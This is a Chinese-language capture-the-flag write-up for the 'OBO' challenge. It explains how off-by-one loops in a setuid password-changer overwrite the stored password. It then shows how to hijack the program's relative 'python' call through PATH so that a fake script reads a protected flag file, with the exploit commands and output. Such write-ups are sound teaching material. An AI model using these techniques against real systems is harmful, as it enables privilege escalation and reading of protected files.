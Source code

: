 # OBO
拿到一個[更改密碼的程式碼](obo.c)，一眼能看出許多地方有邊界錯誤：
 * 在generate_hex_table 這個程式裡：
```c
hex_table[256];
...
for (i = 0; i <= 256; ++i) hex_table[i] = -1;
for (i = 0; i <= 10; ++i) hex_table['0' + i] = i;
for (i = 0; i <= 6; ++i) hex_table['a' + i] = 10 + i;
for (i = 0; i <= 6; ++i) hex_table['A' + i] = 10 + i;
// I don't know why, but I was getting errors, and this fixes it.
hex_table[0] = 0;
```
 * 提示說：如果能找出為何會產生error，和為何加上這行
```c
hex_table[0] = 0;
```
  可以讓程式正常運行的原因，就可以破解這關了。
 * 在檢查新輸入的密碼是否夠複雜的程式碼：
```c
for (i = 0; i <= strlen(new_password); ++i) {
	int index = hex_table[(unsigned char) new_password[i]];
	if (index == -1) {
	   printf("Invalid character: %c\n", new_password[i]);
	   exit(1);
	}
	digits[index] = 1;
}
```
  可以看到因為邊界錯誤，把不該檢查的結束字元'\0'也做複雜度檢查，這就是為什麼上面要加入
```c
hex_table[0] = 0;
```
  才會正常運行的原因。
 * 同理，也可以看到digits的邊界也超出了一格，這超出的一格會以**int長度為單位**複寫stack上緊鄰的東西，也就是password！
 * 注意到sizeof(int) = 4 byte, 而sizeof(char) = 1 byte，所以password的前四格會被覆寫成[1][0][0][0]，也就是說password變成了：*\x01*！
 * 那麼，接下來只剩下更改password的部份了。但很不幸的，這部份還沒有implement，我們需要找其他方法。
 * 仔細看一下呼叫python的code：
```c
snprintf(cmd, sizeof(cmd), "python set_password.py \"%s\"", password);
```
  是用相對路徑開啟，所以說不定我們能複製創一個set_password.py在另一個目錄下，印出flag：
```bash
#!/bin/sh
cat /home/obo/flag.txt
```
  我放到自己的目錄底下/home_users/pico62895，但很可惜，obo在這裡不能開啟password所以失敗，早該預料到的。
 * 那麼剩下調整環境變數，創一個叫作python的script檔，在export到PATH中：
```bash
pico62895@shell:~$ vim python
#!/bin/sh
cat /home/obo/flag.txt
pico62895@shell:~$ chmod +x python
pico62895@shell:~$ export PATH=/home_users/pico62895:$PATH
#!/bin/sh
cat /home/obo/flag.txt
```
 * 然後再執行程式：
```bash
pico62895@shell:~$ (echo -e "123456789abcdefg\n\x01") | /home/obo/obo
New password: Confirm old password: watch_your_bounds
Password changed!
```
 * 成功取得 flag = watch_your_bounds。
